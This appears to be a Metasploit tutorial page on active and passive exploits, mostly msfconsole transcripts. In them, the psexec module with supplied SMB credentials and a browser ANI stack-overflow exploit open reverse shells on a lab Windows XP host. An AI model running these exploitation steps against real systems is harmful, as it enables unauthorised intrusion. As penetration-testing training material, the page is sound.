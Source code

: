 # Exploits

## Active Exploits

* Active exploits will exploit a **specific host**, run until completion, and then exit.
* You can force an active module to the **background** by passing ‘**-j**’ to the '**exploit**' command.

```bash
msf exploit(ms08_067_netapi) > exploit -j
[*] Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'victim'...
[*] Uploading payload...
[*] Created \hikmEeEM.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \hikmEeEM.exe...
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Passive Exploits

* Passive exploits **wait for incoming hosts** and exploit them as they connect.
* Passive exploits almost always focus on **clients** such as web browsers, FTP clients, etc.
* Passive exploits report shells as they happen can be enumerated by passing ‘**-l**’ to the '**sessions**' command. Passing ‘**-i**’ will **interact** with a shell.

```bash
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
===============

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
[*] Exploit running as background job.

[*] Started reverse handler
[*] Using URL: http://0.0.0.0:8080/
[*]  Local IP: http://192.168.1.5:8080/
[*] Server started.
msf exploit(ani_loadimage_chunksize) >
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending HTML page to 192.168.1.100:1077...
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending Windows ANI LoadAniIcon() Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
[*] Sending stage (240 bytes)
[*] Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
[*] Starting interaction with 2...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

## Using Exploits In Metasploit

* Selecting an exploit in Metasploit adds the **exploit** and **check** commands to msfconsole.
*  Using an exploit also adds more options to the **show** command.

```bash
msf exploit(ms09_050_smb2_negotiate_func_index) > show targets
msf exploit(ms09_050_smb2_negotiate_func_index) > show payloads
msf exploit(ms09_050_smb2_negotiate_func_index) > show options
msf exploit(ms09_050_smb2_negotiate_func_index) > show advanced
msf exploit(ms09_050_smb2_negotiate_func_index) > show evasion
```

## References

{% embed url="https://www.offensive-security.com/metasploit-unleashed/exploits/" %}

{% embed url="https://www.offensive-security.com/metasploit-unleashed/using-exploits/" %}

